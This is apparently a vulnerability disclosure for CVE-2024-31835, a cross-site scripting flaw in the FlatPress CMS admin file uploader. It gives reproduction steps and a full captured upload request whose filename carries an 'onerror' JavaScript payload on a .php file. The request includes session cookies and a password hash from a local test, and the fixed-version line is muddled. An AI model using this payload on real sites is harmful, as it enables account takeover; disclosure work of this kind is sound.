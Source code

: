 # CVE-2024-31835
Cross Site Scripting vulnerability in flatpress CMS Flatpress v1.3 allows a remote attacker to execute arbitrary code via a craftedpayload to the file name parameter.

Affected Component:
FlatPress CMS Admin Panel File Upload Field

Fixed version:
Flatpress v1.3 - will be fixed in FlatPress version 1.3.

Attack Type: Remote

Attack Vectors: Exploit Vulnerability by crafting the Image filename

Step to Reproduce:

1.login admin account and open below URL http://127.0.0.1/flatpress-1.2.1/admin.php?p=uploader&action=mediamanager
2.click on upload field upload any file you want click on upload and intercept request with burpsuite the request will look like below inject javascript payload with filename ```test<img src=a onerror=alert(1)>test```


## Request Example

```http
POST /flatpress-1.2.1/admin.php?p=uploader&action=default HTTP/1.1
Host: 127.0.0.1
Content-Length: 1598
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzHnyH0cX0ojRbqom
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/flatpress-1.2.1/admin.php?p=uploader
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: fpuser_fp-9b0a379a=parag; fppass_fp-9b0a379a=%242y%2410%24j.D1Ab.xVMoIDu9yQF8QjefOZmz9JPoh4QwzpoCdYxlqSkNQDGag2; fpsess_fp-9b0a379a=mg65h4rd8onvv2tniminpq635f
Connection: close

------WebKitFormBoundaryzHnyH0cX0ojRbqom
Content-Disposition: form-data; name="_wpnonce"
60f24876be
------WebKitFormBoundaryzHnyH0cX0ojRbqom
Content-Disposition: form-data; name="_wp_http_referer"
/flatpress-1.2.1/admin.php?p=uploader
------WebKitFormBoundaryzHnyH0cX0ojRbqom
Content-Disposition: form-data; name="upload[]"; filename="test.phpuh9ae<img src=a onerror=alert(1)>airjipc8brr"
Content-Type: application/x-php

TEst
------WebKitFormBoundaryzHnyH0cX0ojRbqom--
```


Reference:

https://portswigger.net/web-security/cross-site-scripting
https://drive.google.com/file/d/1OthtP87MduNTYur_p0RZv3moY8CrBcaM/view

Vendor of Product:
flatpress CMS

Confirmed on: 11/06/2023

Discoverer:
Parag Bagul




